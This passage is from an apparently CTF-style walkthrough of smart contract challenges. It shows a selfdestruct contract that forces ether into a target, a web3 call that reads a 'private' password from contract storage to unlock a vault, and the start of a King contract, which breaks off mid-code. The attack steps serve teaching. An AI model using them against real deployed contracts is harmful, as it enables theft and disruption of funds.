 When the contract calls selfdestruct() function with an address parameter , the balance of the contract will transfer to the address .

So we can simply create a new contract and send some balance to the contract and then call selfdestruct (challange contract address) .

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract Force {
    function receiveEther() payable public{
     }
    function send(address payable _add) public {
        selfdestruct(_add);
    }
}
```

## 8 Vault

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract Vault {
  bool public locked;
  bytes32 private password;
  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }
  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

To solve this challenge we need to call the unlock with correct password.

As you can see the password is stored in the contract itself with visibility private.

In blockchain everything is public , so do the password too . The private only limits it by using in other derived contracts.

We can read the contract storage using web3js .

```js
await contract.unlock(await web3.eth.getStorageAt(instance, 1));
```

## 9 King

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract King {
  address payable king;
  uint public prize;
  address payable public owner;
  constructor() public payable {
    owner = msg.sender;
    king = msg.sender;
    prize = msg.value;
  }
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
```